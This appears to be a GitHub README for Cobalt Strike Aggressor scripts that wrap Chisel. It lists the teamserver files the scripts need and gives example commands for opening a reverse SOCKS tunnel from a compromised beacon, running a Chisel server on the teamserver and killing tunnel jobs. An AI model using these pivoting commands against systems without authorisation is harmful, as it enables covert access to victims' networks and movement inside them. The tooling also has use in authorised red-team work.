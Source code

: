 # Cobalt_Strike_scripts
Cobalt Strike Aggressor scripts

## Chisel script
The chisel.cna needs these files and these files must be located on the teamserver:
- logs/
  - chisel_client_job_pids.log
  - chisel_tms_job_pids.log
- modules/
  - chisel_linux
  - chisel_win.exe
  - chisel64
  - chisel64.exe
  - chisel86
  - chisel86.exe
- tools/
  - tmskill64.bat
  - tmskill64.sh
  - tmskill86.bat
  - tmskill86.sh

You must have write permissions to the log files.

You can download last versions of chisel from https://github.com/jpillora/chisel

### Modules
🔺 **chisel**

The 'client' functionality is used on a beacon. Example:
```
chisel client <serv_IP>:<serv_port> R:<socks_IP>:<socks_port>:socks
```

🔺 **chisel-jobs**

List active chisel jobs on the teamserver and beacon. Just run:
```
chisel-jobs
```

🔺 **chisel-kill**

Kill chisel jobs on a beacon. Use 'ALL' to kill all jobs or PID to kill only one job with typed PID. Example:
```
chisel-kill ALL
chisel-kill 3453
```

🔺 **chisel-tms**

Run Chisel on your teamserver. Example:
```
chisel-tms server --auth user:pass -p <serv_port> --socks5 --reverse
```

🔺 **chisel-tms-kill**

Kill all chisel jobs on the teamserver. Just run:
```
chisel-tms-kill
```

## Screenshots
![Chisel](/screens/ch_client.png)
![Chisel tms](/screens/ch_tms.png)
